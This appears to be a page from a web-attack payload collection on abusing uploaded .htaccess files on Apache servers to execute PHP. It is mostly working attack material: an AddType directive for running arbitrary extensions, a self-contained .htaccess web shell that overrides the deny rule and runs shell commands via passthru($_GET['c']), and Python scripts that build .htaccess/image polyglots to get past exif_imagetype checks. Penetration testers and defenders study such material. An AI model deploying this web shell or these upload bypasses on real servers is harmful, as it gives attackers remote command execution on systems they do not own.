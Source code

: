 # .htaccess

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerable server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

## Summary

* [AddType Directive](#addtype-directive)
* [Self Contained .htaccess](#self-contained-htaccess)
* [Polyglot .htaccess](#polyglot-htaccess)
* [References](#references)

## AddType Directive

Upload an .htaccess with : `AddType application/x-httpd-php .rce`
Then upload any file with `.rce` extension.

## Self Contained .htaccess

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directives from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

## Polyglot .htaccess

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot.

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.

* Create valid `.htaccess/xbm` image

    ```python
    width = 50
    height = 50
    payload = '# .htaccess file'

    with open('.htaccess', 'w') as htaccess:
        htaccess.write('#define test_width %d\n' % (width, ))
        htaccess.write('#define test_height %d\n' % (height, ))
        htaccess.write(payload)
    ```

* Create valid `.htaccess/wbmp` image

    ```python
    type_header = b'\x00'
    fixed_header = b'\x00'
    width = b'50'
    height = b'50'
    payload = b'# .htaccess file'

    with open('.htaccess', 'wb') as htaccess:
        htaccess.write(type_header + fixed_header + width + height)
        htaccess.write(b'\n')
        htaccess.write(payload)
    ```

## References

* [Attacking Webservers Via .htaccess - Eldar Marcussen - May 17, 2011](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability - Narendra Shinde - October 22, 2015](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Insomnihack Teaser 2019 / l33t-hoster - Ian Bouchard (@Corb3nik) - January 20, 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
